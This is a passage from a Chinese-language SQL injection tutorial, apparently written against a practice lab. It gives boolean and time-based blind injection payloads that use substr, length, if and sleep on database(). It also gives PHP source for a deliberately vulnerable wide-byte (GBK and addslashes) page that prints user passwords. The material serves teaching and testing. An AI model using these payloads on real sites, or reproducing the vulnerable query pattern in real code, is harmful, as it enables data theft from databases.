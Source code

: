 

```sql
?id=1 and (select length(database()))<100 --+
```

```sql
substr(string,start,length)
```

```sql
select length(database()<7);  #正确返回1，错误返回0
```

注入代码：

```sql
vince' and substr(database(),1,1)='p'#
```

#### 7、时间盲注

时间注入原理：

利用IF(exp,exp1,exp2)函数

如果exp成立执行exp1，否则执行exp2



测试代码：



```sql
vince' and sleep(10)#
```

注入代码：

```sql
vince' and if(substr(database(),1,1)='p',sleep(10),null)#
```



#### 8、宽字节注入

源码：

```php
<?php

$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
mysql_select_db('test', $conn) OR emMsg("数据库连接失败");
mysql_query("SET NAMES 'gbk'",$conn);

$id = addslashes($_GET['id']);
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result = mysql_query($sql, $conn) or die(mysql_error()); 
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo $row['username']." : ".$row['password'];
  	}
	else 
	{
	print_r(mysql_error()); 
	}      

?>
</font> 
<?php
echo "<br>The Query String is : ".$sql ."<br>";
?>
```